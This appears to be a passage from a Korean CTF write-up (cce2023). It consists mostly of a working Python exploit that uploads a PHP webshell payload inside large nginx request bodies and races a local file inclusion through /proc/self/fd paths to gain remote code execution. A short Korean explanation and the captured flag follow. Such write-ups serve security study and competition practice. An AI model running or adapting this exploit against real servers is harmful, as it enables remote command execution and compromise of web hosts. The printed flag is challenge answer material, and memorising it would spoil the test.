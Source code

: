 ```python
            break

done = False

# upload a big client body to force nginx to create a /var/lib/nginx/body/$X
def uploader():
    print('[+] starting uploader')
    while not done:
        requests.get(URL, data='<?php system($_GET["c"]); /*' + 16*1024*'A')

for _ in range(16):
    t = threading.Thread(target=uploader)
    t.start()

# brute force nginx's fds to include body files via procfs
# use ../../ to bypass include's readlink / stat problems with resolving fds to `/var/lib/nginx/body/0000001150 (deleted)`

def save_string_to_file(string, filename):
    with open(filename, 'w') as file:
        file.write(string)
        
def bruter(pid):
    global done

    while not done:
        print(f'[+] brute loop restarted: {pid}')
        for fd in range(4, 32):
            f = f'../../../../../../../proc/self/fd/{pid}/../../../{pid}/fd/{fd}'
            r  = requests.get(URL, params={
                'page': f,
                'c': f'/readflag'
            })
            if r.text:
                print(f'[!] {f}: {r.text}')
                save_string_to_file(r.text, "flag.txt")
                done = True
                exit()

for pid in nginx_workers:
    a = threading.Thread(target=bruter, args=(pid, ))
    a.start()
```

`webshell` 업로드와 `file include`를 동시에 `race condition`으로 수행하는 코드다. 임시파일이 삭제되기전에 해당 파일에 접근해서 RCE를 시도한다.

출력된 문자가 너무 긴 관계로 익스 결과를 파일로 저장해서 확인하는 방식으로 코드를 구성했다.

```python
cce2023{1e6b9e3691debe669ecd5626e7797ad4}
```
